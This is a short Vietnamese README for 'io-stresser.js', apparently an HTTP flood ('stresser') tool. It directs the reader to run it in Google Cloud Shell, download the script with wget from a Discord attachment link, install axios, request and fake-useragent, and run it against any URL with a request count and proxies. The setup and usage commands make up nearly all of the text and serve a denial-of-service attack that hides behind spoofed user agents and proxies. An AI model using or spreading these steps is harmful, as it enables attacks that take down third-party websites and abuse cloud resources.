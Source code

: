 # io-stresser.js

mỗi trường thực hiện
=======
[Google Shell](https://shell.cloud.google.com/)

cài đặt
=======
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
```
cách sử dụng
=======
```
node io-stresser.js <URL> 10000 5 proxy
```
